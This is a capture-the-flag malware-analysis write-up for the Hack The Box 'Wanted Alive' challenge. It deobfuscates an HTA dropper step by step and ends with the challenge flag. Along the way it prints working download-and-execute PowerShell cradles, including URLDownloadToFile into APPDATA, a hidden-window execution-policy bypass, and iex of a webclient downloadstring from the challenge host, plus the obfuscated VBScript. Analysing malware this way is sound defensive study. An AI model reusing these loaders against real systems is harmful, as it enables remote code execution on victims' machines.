


# Wanted Alive HTB Write-up

## Step-by-Step Analysis

### 1. Initial Investigation

I started with the provided IP address:

```
94.237.50.250:37253
```

Accessing this URL resulted in the following error message:

```
Not Found
The requested URL was not found on the server. If you entered the URL manually, please check your spelling and try again.
```

This indicated that no content was available directly through this address.

### 2. Discovery of `wanted.hta`

Next, I obtained an obfuscated HTA file (`wanted.hta`). Below is a screenshot of the code before any decoding:

<p align='center'>
  
</p>

To analyze the code, I performed multiple url decoding steps using **CyberChef**. After decoding the content five times, I identified **Base64-encoded** text within the file:
<p align='center'>
  
</p>

```
JGVhNmM4bXJUICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgPSAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgIEFkZC1UeXBlICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgLW1lTUJlckRlZmluSVRJb24gICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAnW0RsbEltcG9ydCgidVJMbU9OLmRsTCIsICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgQ2hhclNldCA9IENoYXJTZXQuVW5pY29kZSldcHVibGljIHN0YXRpYyBleHRlcm4gSW50UHRyIFVSTERvd25sb2FkVG9GaWxlKEludFB0ciAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgIFBHLHN0cmluZyAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgIENmbXIsc3RyaW5nICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgYVV2eVZCUkQsdWludCAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgIGZmWWxEb2wsSW50UHRyICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgb0ZYckloKTsnICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgLW5BTUUgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAiU3V4dFBJQkp4bCIgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAtTmFtRXNQQWNFICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgbklZcCAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgIC1QYXNzVGhydTsgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAkZWE2YzhtclQ6OlVSTERvd25sb2FkVG9GaWxlKDAsImh0dHA6Ly93YW50ZWQuYWxpdmUuaHRiLzM1L3dhbnRlZC50SUYiLCIkZU52OkFQUERBVEFcd2FudGVkLnZicyIsMCwwKTtTVEFSdC1zbGVlUCgzKTtzdEFSdCAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICIkZW5WOkFQUERBVEFcd2FudGVkLnZicyI=
```

### 3. Decoding the Base64 Content

After decoding the Base64 content, I uncovered the following PowerShell command:

```powershell
$ea6c8mrT = Add-Type -meMBerDefinITIon '[DllImport("uRLmON.dlL", CharSet = CharSet.Unicode)]public static extern IntPtr URLDownloadToFile(IntPtr PG,string Cfmr,string aUvyVBRD,uint ffYlDol,IntPtr oFXrIh);' -nAME "SuxtPIBJxl" -NamEsPAcE nIYp -PassThru; $ea6c8mrT::URLDownloadToFile(0,"http://wanted.alive.htb/35/wanted.tIF","$eNv:APPDATA\wanted.vbs",0,0);STARt-sleeP(3); stARt "$enV:APPDATA\wanted.vbs"
```

This code downloads and executes a `.vbs` script from the following URL:

```
http://wanted.alive.htb/35/wanted.tIF
```

### 4. Analyzing `wanted.tIF`

#### Modifying Hosts File

To access the `wanted.alive.htb` domain, I updated my **hosts file**, mapping it to the IP address.

#### Downloading the Script

After modifying the hosts file, I downloaded the `wanted.tIF` file and analyzed its contents. The file turned out to be a VBScript that was encoded in a complex, multi-layered format. Here’s a snippet of the obfuscated VBScript:

```vbscript
latifoliado = "U2V0LUV4ZWN1dGlvblBvbGljeSBCeXBhc3MgLVNjb3BlIFByb2Nlc3MgLUZvcmNlOyBbU3lzdGVtLk5ldC5TZd2FudGVkCgXJ2aWNlUG9pbnRNYW5hZ2VyXTo6U2VydmVyQ2VydGlmaWNhdGVWYWxpZGF0aW9uQ2FsbGJhY2sgPSB7JHRydWV9O1td2FudGVkCgTe"
latifoliado = latifoliado & "XN0ZW0uTmV0LlNlcnZpY2VQb2ludE1hbmFnZXJdOjpTZWN1cml0eVByb3RvY29sID0gW1N5c3RlbS5OZXQuU2Vydmld2FudGVkCgjZVBvaW50TWFuYWdlcl06OlNlY3VyaXR5UHJvdG9jb2wgLWJvciAzMDcyOyBpZXggKFtTeXN0ZW0uVGV4dC5FbmNvZd2FudGVkCgGl"
latifoliado = latifoliado & "uZ106OlVURjguR2V0U3RyaW5nKFtTeXN0ZW0uQ29udmVydF06OkZyb21CYXNlNjRTdHJpbmcoKG5ldy1vYmplY3Qgcd2FudGVkCg3lzdGVtLm5ldC53ZWJjbGllbnQpLmRvd25sb2Fkc3RyaW5nKCdodHRwOi8vd2FudGVkLmFsaXZlLmh0Yi9jZGJhL19d2FudGVkCgyc"
latifoliado = latifoliado & "CcpKSkpd2FudGVkCgd2FudGVkCg"

Dim parrana
parrana = "d2FudGVkCg"

Dim arran
arran =" d2FudGVkCg  d2FudGVkCg "
arran = arran & "$d2FudGVkCgCod2FudGVkCgd"
arran = arran & "id2FudGVkCggod2FudGVkCg "
arran = arran & "d2FudGVkCg" & latifoliado & "d2FudGVkCg"
arran = arran & "$d2FudGVkCgOWd2FudGVkCgj"
arran = arran & "ud2FudGVkCgxdd2FudGVkCg "
arran = arran & "=d2FudGVkCg [d2FudGVkCgs"
arran = arran & "yd2FudGVkCgstd2FudGVkCge"
arran = arran & "md2FudGVkCg.Td2FudGVkCge"
arran = arran & "xd2FudGVkCgt.d2FudGVkCge"
arran = arran & "nd2FudGVkCgcod2FudGVkCgd"
arran = arran & "id2FudGVkCgngd2FudGVkCg]"
arran = arran & ":d2FudGVkCg:Ud2FudGVkCgT"
arran = arran & "Fd2FudGVkCg8.d2FudGVkCgG"
arran = arran & "ed2FudGVkCgtSd2FudGVkCgt"
arran = arran & "rd2FudGVkCgind2FudGVkCgg"
arran = arran & "(d2FudGVkCg[sd2FudGVkCgy"
arran = arran & "sd2FudGVkCgted2FudGVkCgm"
arran = arran & ".d2FudGVkCgCod2FudGVkCgn"
arran = arran & "vd2FudGVkCgerd2FudGVkCgt"
arran = arran & "]d2FudGVkCg::d2FudGVkCgF"
arran = arran & "rd2FudGVkCgomd2FudGVkCgb"
arran = arran & "ad2FudGVkCgsed2FudGVkCg6"
arran = arran & "4d2FudGVkCgStd2FudGVkCgr"
arran = arran & "id2FudGVkCgngd2FudGVkCg("
arran = arran & "$d2FudGVkCgcod2FudGVkCgd"
arran = arran & "id2FudGVkCggod2FudGVkCg)"
arran = arran & ")d2FudGVkCg;pd2FudGVkCgo"
arran = arran & "wd2FudGVkCgerd2FudGVkCgs"
arran = arran & "hd2FudGVkCgeld2FudGVkCgl"
arran = arran & ".d2FudGVkCgexd2FudGVkCge"
arran = arran & " d2FudGVkCg-wd2FudGVkCgi"
arran = arran & "nd2FudGVkCgdod2FudGVkCgw"
arran = arran & "sd2FudGVkCgtyd2FudGVkCgl"
arran = arran & "ed2FudGVkCg hd2FudGVkCgi"
arran = arran & "dd2FudGVkCgded2FudGVkCgn"
arran = arran & " d2FudGVkCg-ed2FudGVkCgx"
arran = arran & "ed2FudGVkCgcud2FudGVkCgt"
arran = arran & "id2FudGVkCgond2FudGVkCgp"
arran = arran & "od2FudGVkCglid2FudGVkCgc"
arran = arran & "yd2FudGVkCg bd2FudGVkCgy"
arran = arran & "pd2FudGVkCgasd2FudGVkCgs"
arran = arran & " d2FudGVkCg-Nd2FudGVkCgo"
arran = arran & "Pd2FudGVkCgrod2FudGVkCgf"
arran = arran & "id2FudGVkCgled2FudGVkCg "
arran = arran & "-d2FudGVkCgcod2FudGVkCgm"
arran = arran & "md2FudGVkCgand2FudGVkCgd"
arran = arran & " d2FudGVkCg$Od2FudGVkCgW"
arran = arran & "jd2FudGVkCguxd2FudGVkCgD"
arran = descortinar(arran, parrana, "")

Dim sandareso
sandareso = "pd2FudGVkCgo"
sandareso = sandareso & "wd2FudGVkCgr"
sandareso = sandareso & "sd2FudGVkCge"
sandareso = sandareso & "ld2FudGVkCgl -cd2FudGVkCgommad2FudGVkCgnd "
sandareso = descortinar(sandareso, parrana, "")
sandareso = sandareso & arran
```

The script concatenates strings and uses a custom deobfuscation function, `descortinar`, to decode its payload.

### 5. Custom Python Decoder

To analyze the script, I wrote a Python script to automate the deobfuscation process by replacing encoded placeholders with decoded content. Here’s the core of my Python script:

```python
latifoliado = "U2V0LUV4ZWN1dGlvblBvbGljeSBCeXBhc3MgLVNjb3BlIFByb2Nlc3MgLUZvcmNlOyBbU3lzdGVtLk5ldC5TZd2FudGVkCgXJ2aWNlUG9pbnRNYW5hZ2VyXTo6U2VydmVyQ2VydGlmaWNhdGVWYWxpZGF0aW9uQ2FsbGJhY2sgPSB7JHRydWV9O1td2FudGVkCgTe"
latifoliado = latifoliado + "XN0ZW0uTmV0LlNlcnZpY2VQb2ludE1hbmFnZXJdOjpTZWN1cml0eVByb3RvY29sID0gW1N5c3RlbS5OZXQuU2Vydmld2FudGVkCgjZVBvaW50TWFuYWdlcl06OlNlY3VyaXR5UHJvdG9jb2wgLWJvciAzMDcyOyBpZXggKFtTeXN0ZW0uVGV4dC5FbmNvZd2FudGVkCgGl"
latifoliado = latifoliado + "uZ106OlVURjguR2V0U3RyaW5nKFtTeXN0ZW0uQ29udmVydF06OkZyb21CYXNlNjRTdHJpbmcoKG5ldy1vYmplY3Qgcd2FudGVkCg3lzdGVtLm5ldC53ZWJjbGllbnQpLmRvd25sb2Fkc3RyaW5nKCdodHRwOi8vd2FudGVkLmFsaXZlLmh0Yi9jZGJhL19d2FudGVkCgyc"
latifoliado = latifoliado + "CcpKSkpd2FudGVkCgd2FudGVkCg"

parrana = "d2FudGVkCg"

arran =" d2FudGVkCg  d2FudGVkCg "
arran = arran + "$d2FudGVkCgCod2FudGVkCgd"
arran = arran + "id2FudGVkCggod2FudGVkCg "
arran = arran + "d2FudGVkCg" + latifoliado + "d2FudGVkCg"
arran = arran + "$d2FudGVkCgOWd2FudGVkCgj"
arran = arran + "ud2FudGVkCgxdd2FudGVkCg "
arran = arran + "=d2FudGVkCg [d2FudGVkCgs"
arran = arran + "yd2FudGVkCgstd2FudGVkCge"
arran = arran + "md2FudGVkCg.Td2FudGVkCge"
arran = arran + "xd2FudGVkCgt.d2FudGVkCge"
arran = arran + "nd2FudGVkCgcod2FudGVkCgd"
arran = arran + "id2FudGVkCgngd2FudGVkCg]"
arran = arran + ":d2FudGVkCg:Ud2FudGVkCgT"
arran = arran + "Fd2FudGVkCg8.d2FudGVkCgG"
arran = arran + "ed2FudGVkCgtSd2FudGVkCgt"
arran = arran + "rd2FudGVkCgind2FudGVkCgg"
arran = arran + "(d2FudGVkCg[sd2FudGVkCgy"
arran = arran + "sd2FudGVkCgted2FudGVkCgm"
arran = arran + ".d2FudGVkCgCod2FudGVkCgn"
arran = arran + "vd2FudGVkCgerd2FudGVkCgt"
arran = arran + "]d2FudGVkCg::d2FudGVkCgF"
arran = arran + "rd2FudGVkCgomd2FudGVkCgb"
arran = arran + "ad2FudGVkCgsed2FudGVkCg6"
arran = arran + "4d2FudGVkCgStd2FudGVkCgr"
arran = arran + "id2FudGVkCgngd2FudGVkCg("
arran = arran + "$d2FudGVkCgcod2FudGVkCgd"
arran = arran + "id2FudGVkCggod2FudGVkCg)"
arran = arran + ")d2FudGVkCg;pd2FudGVkCgo"
arran = arran + "wd2FudGVkCgerd2FudGVkCgs"
arran = arran + "hd2FudGVkCgeld2FudGVkCgl"
arran = arran + ".d2FudGVkCgexd2FudGVkCge"
arran = arran + " d2FudGVkCg-wd2FudGVkCgi"
arran = arran + "nd2FudGVkCgdod2FudGVkCgw"
arran = arran + "sd2FudGVkCgtyd2FudGVkCgl"
arran = arran + "ed2FudGVkCg hd2FudGVkCgi"
arran = arran + "dd2FudGVkCgded2FudGVkCgn"
arran = arran + " d2FudGVkCg-ed2FudGVkCgx"
arran = arran + "ed2FudGVkCgcud2FudGVkCgt"
arran = arran + "id2FudGVkCgond2FudGVkCgp"
arran = arran + "od2FudGVkCglid2FudGVkCgc"
arran = arran + "yd2FudGVkCg bd2FudGVkCgy"
arran = arran + "pd2FudGVkCgasd2FudGVkCgs"
arran = arran + " d2FudGVkCg-Nd2FudGVkCgo"
arran = arran + "Pd2FudGVkCgrod2FudGVkCgf"
arran = arran + "id2FudGVkCgled2FudGVkCg "
arran = arran + "-d2FudGVkCgcod2FudGVkCgm"
arran = arran + "md2FudGVkCgand2FudGVkCgd"
arran = arran + " d2FudGVkCg$Od2FudGVkCgW"
arran = arran + "jd2FudGVkCguxd2FudGVkCgD"

sandareso = "pd2FudGVkCgo"
sandareso = sandareso + "wd2FudGVkCgr"
sandareso = sandareso + "sd2FudGVkCge"
sandareso = sandareso + "ld2FudGVkCgl -cd2FudGVkCgommad2FudGVkCgnd "

sandareso = sandareso + arran
sandareso = sandareso.replace(parrana,"")        
        
print(sandareso)
        
```

This allowed me to reveal the original VBScript logic and analyze its intent.

### 5. Deobfuscate the VBScript

After Deobfuscate the VBScript, I uncovered the following PowerShell command:
```powershell
 powrsell -command     $Codigo U2V0LUV4ZWN1dGlvblBvbGljeSBCeXBhc3MgLVNjb3BlIFByb2Nlc3MgLUZvcmNlOyBbU3lzdGVtLk5ldC5TZXJ2aWNlUG9pbnRNYW5hZ2VyXTo6U2VydmVyQ2VydGlmaWNhdGVWYWxpZGF0aW9uQ2FsbGJhY2sgPSB7JHRydWV9O1tTeXN0ZW0uTmV0LlNlcnZpY2VQb2ludE1hbmFnZXJdOjpTZWN1cml0eVByb3RvY29sID0gW1N5c3RlbS5OZXQuU2VydmljZVBvaW50TWFuYWdlcl06OlNlY3VyaXR5UHJvdG9jb2wgLWJvciAzMDcyOyBpZXggKFtTeXN0ZW0uVGV4dC5FbmNvZGluZ106OlVURjguR2V0U3RyaW5nKFtTeXN0ZW0uQ29udmVydF06OkZyb21CYXNlNjRTdHJpbmcoKG5ldy1vYmplY3Qgc3lzdGVtLm5ldC53ZWJjbGllbnQpLmRvd25sb2Fkc3RyaW5nKCdodHRwOi8vd2FudGVkLmFsaXZlLmh0Yi9jZGJhL19ycCcpKSkp$OWjuxd = [system.Text.encoding]::UTF8.GetString([system.Convert]::Frombase64String($codigo));powershell.exe -windowstyle hidden -executionpolicy bypass -NoProfile -command $OWjuxD
```
### 6. Decode the Base64 part
After decoding the Base64 content, I uncovered the following PowerShell command:
```powershell
Set-ExecutionPolicy Bypass -Scope Process -Force; [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true};[System.Net.ServicePointManager]::SecurityProtocol = [System.Net.ServicePointManager]::SecurityProtocol -bor 3072; iex ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String((new-object system.net.webclient).downloadstring('http://wanted.alive.htb/cdba/_rp'))))9h��
```

### 7. Fetching Payload Using `downloadstring`
The script uses the `downloadstring` function to fetch the payload from:

```
http://wanted.alive.htb/cdba/_rp
```

This URL provides the payload that is downloaded and executed by the script.

### 8. The Flag
After opening the URL, the flag for this challenge is:
```
HTB{c4tch3d_th3_m4lw4r3_w1th_th3_l4ss0_4c03d0bf1220760a9fd89c0c06597e7b}
```

# Conclusion:
The PowerShell script in the `wanted.hta` file downloads and executes a VBScript payload from a remote server, which leads to the final flag.
